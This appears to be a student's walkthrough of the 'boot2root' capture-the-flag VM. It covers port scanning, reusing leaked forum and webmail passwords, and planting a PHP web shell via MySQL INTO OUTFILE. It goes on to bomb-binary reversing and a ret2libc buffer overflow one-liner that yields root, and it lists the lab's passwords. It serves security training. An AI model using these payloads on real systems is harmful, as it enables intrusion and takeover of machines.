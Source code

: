 # Main way

Since bridged adapter is blocked in the school - I setup kali linux vm and boot-to-root vm through host-only adapter.
I created local network through *VirtualBox->File->Host network manager*, and it's ip *192.168.56.1/24*.
Now, there is a local network with kali vm, boot-to-root vm and host computer.
And kali will see only host computet and boot-to-root vm.
My kali linux ip is 192.168.56.101 (through * ip a *).
And we need to find out how can we interact with boot-to-root vm. For this I check all available ports im my local network with * nmap 192.168.56.1-225 *

For only one non host port in my local network I received:
Nmap scan report for 192.168.56.102
Host is up (0.0010s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

So boot-to-root vm running on 192.168.56.102 ip, and have few open ports.

On http there is site, which is pretty empty, I check it html source code and there is nothing interesting in it. 
After that I scanned it with * skipfish -o path_to_save http://192.168.56.102 * and * nikto -h http://192.168.56.102 *, and not found thomething interesting.

There is another open port which could be scanned, it's https.
using * nikto -h https://192.168.56.102 * we recieve few interesting dirs: forum, webmail, phpmyadmin

On forum there are 4 topics and only one is iteresting, topic *Probleme login* where user *lmezard* push logs with attempts to log in.

In these logs we can see, what username lmezard used trying to log in, it's *Failed password for invalid user 'username'* 
And there is interesting username in string * Failed password for invalid user !q\]Ej?*5K5cy*AJ *
And, these characters came up for lmezard password.

In lmezard profile we could see his email, so we go to webmail, and try the same password !q\]Ej?*5K5cy*AJ to his mail. And it's fits again.

In mail there is message * DB Access * which contains * Use root/Fg-'kKXBj87E:aJ$  *. It doesn't fit to ssh and ftp connection, but it's fit to phpmyadmin.

First of all I checked all tables in db, but all users passwords hashed and I didn't find any helpful information.
And another way to get access to server - is SQL injection through which you can access the shell.
(detailed articles about SQL injections https://null-byte.wonderhowto.com/how-to/use-sql-injection-run-os-commands-get-shell-0191405/ https://www.informit.com/articles/article.aspx?p=1407358&seqNum=2)

* SELECT  '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/forum/templates_c/hack.php' *
templates_c - dir which always need write permission, used for compiled templates. I found it through *dirbuster* and brute force dirs to write access.

After that we can run something like this * https://192.168.56.102/forum/templates_c/hack.php?cmd=pwd * and it will show pwd output * /var/www/forum/templates_c *

After a little research, we can see LOOKATME dir in home dir with other users (I used curl because more convenient output):
* curl --insecure 'https://192.168.56.102/forum/templates_c/hack.php?cmd=ls%20-la%20/home' * (--insecure because of https not safe)
drwxrwx--x 9 www-data             root                 126 Oct 13  2015 .
drwxr-xr-x 1 root                 root                 200 Apr 16 04:01 ..
drwxr-x--- 2 www-data             www-data              31 Oct  8  2015 LOOKATME
drwxr-x--- 6 ft_root              ft_root              156 Jun 17  2017 ft_root
drwxr-x--- 3 laurie               laurie               143 Oct 15  2015 laurie
drwxr-x--- 4 laurie@borntosec.net laurie@borntosec.net 113 Oct 15  2015 laurie@borntosec.net
dr-xr-x--- 2 lmezard              lmezard               61 Oct 15  2015 lmezard
drwxr-x--- 3 thor                 thor                 129 Oct 15  2015 thor
drwxr-x--- 4 zaz                  zaz                  147 Oct 15  2015 zaz

There is file password in LOOKATME dir, which contains * lmezard:G!@M6f4Eatau{sF" *

This password fit to ftp port, which contains README file - "Complete this little challenge and use the result as password for user 'laurie' to login in ssh", and fun file (which need to be solved).
(command 'get' to receive files through ftp)

### lmezard
File fun is archive (I found out it because of '0ustar' mark in file).
After unzipping (* tar -xf fun *)
There is a folder * ft_fun * with a lot of pcap files.

These files have c code, and comments which number/line it has.
So we need to write script which will correct concat them into c file.
We can use our "build_program.py" script inside this folder to get full program.
Compile and run "prog.c". Got "Iheartpwnage" password and advice to use sha-256.

### laurie
```
echo -n "Iheartpwnage" | shasum -a 256
```
laurie : 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

There is bomb here. Bomb contains of 6 phases. We should input correct key in each stage.
```
scp -P 2222 laurie@127.0.0.1:bomb ./
```

gdb bomb

    disas main
    disas phase_1
    x/1cs 0x80497c0
    "Public speaking is very easy."

    disas phase_2
    Program expects 6 numbers. First is 1, and every number = prev * (index(cur) + 1)
    "1 2 6 24 120 720"

    disas phase_3
It is very difficult to read this asm code. And We downloaded cutter to decompile bomb. Yeah, this way is much better.
We see switch-case condition here and there are several correct combinations.
0 q 777
1 b 214

phase_4  
Recursive function, which returns sum of calls this function with num - 1 and num - 2. If num < 2 function returns 1. We need 55.
1 -> 1
2 -> 2
3 -> 3
4 -> 5
5 -> 8
6 -> 13
7 -> 21
8 -> 34
9 -> 55

phase_5  
So we will have some sex with bytes here.
We shoud get word "giants". Program expects 6 charachters.
Logical AND with 0xF uses for each inputed character, and then get this num as index of "isrveawhobpnutfg" array.
So we need indexes: 15 0 5 11 13 1.
Look at ascii table and get characters which hexadecimal second digit are f, 0, 5, b, d, 1. It is "opekmq".

phase_6  
Program expects 6 numbers.
Inside program is array with numbers 253 725 301 997 212 432.
There are 4 cycles here.
1) Checks that each number is unique and 1 <= n <= 6.
2) 3) Build new array from program's array with inputed indexes.
4) Check that new array is sorted.
So we need numbers "4 2 6 3 1 5".

README says to remove spaces when we have FULL the password. Ok, lets concatenate all strings and remove spaces.
"Publicspeakingisveryeasy.126241207201b2149opekmq426135". This is password for thor.

### thor
Use our "parse_turtle_steps.py" script and look at word "SLASH".
```
md5 -s SLASH
```
"646da671ca01bb5d84dbb5fb2238dc8e" is password for zaz.

### zaz
You can see expolit_me file there. This program takes argument and prints it. With decompiled code we can see that there is only 140 bytes buffer inside main. And strcpy is uding here. Excellent opportunity to overflow buffer and use ret2lib exploit.

We need to know system command adress and '/bin/bash' string address.

gdb exploit_me

    break main
    run
    print &system                           > 0xb7e6b060 > '\xb7\xe6\xb0\x60'
    find &system, +9999999, "/bin/sh"       > 0xb7f8cc58 > '\xb7\xf8\xcc\x58'


Now we can run this command
```
./exploit_me $(python -c "print('a' * 140 + '\xb7\xe6\xb0\x60'[::-1] + 'dumm' + '\xb7\xf8\xcc\x58'[::-1])")
```

Whaaat is going on? Whoami? A im root! System has been hacked.

Description of ret2lib exploit.
https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf

Gdb useful things.
https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
